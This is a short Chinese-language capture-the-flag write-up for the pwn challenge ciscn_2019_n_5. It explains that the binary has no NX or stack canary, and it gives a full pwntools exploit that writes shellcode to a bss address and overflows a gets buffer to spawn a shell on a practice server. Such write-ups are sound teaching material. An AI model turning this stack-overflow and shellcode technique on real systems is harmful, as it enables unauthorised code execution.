

# 知识点

ret2shellcode


# 题目分析

1. 查看保护情况，64位程序，没开启保护，存在RWX（可读可写可执行）段。

   ```bash
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x400000)
   RWX:      Has RWX segments
   ```

2. 拖入IDA分析，发现read函数和gets函数存在栈溢出漏洞。

   

3. 由于程序没开启NX保护，因此，我们可以将shellcode写入name变量，然后利用gets栈溢出执行shellcode即可。


# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_n_5')
io = remote('node4.buuoj.cn', '29821')

bss = 0x601080

payload = asm(shellcraft.sh())
io.send(payload)

payload = 'A' * 0x20 + 'deadbeef' + p64(bss)
io.sendline(payload)

io.interactive()
```

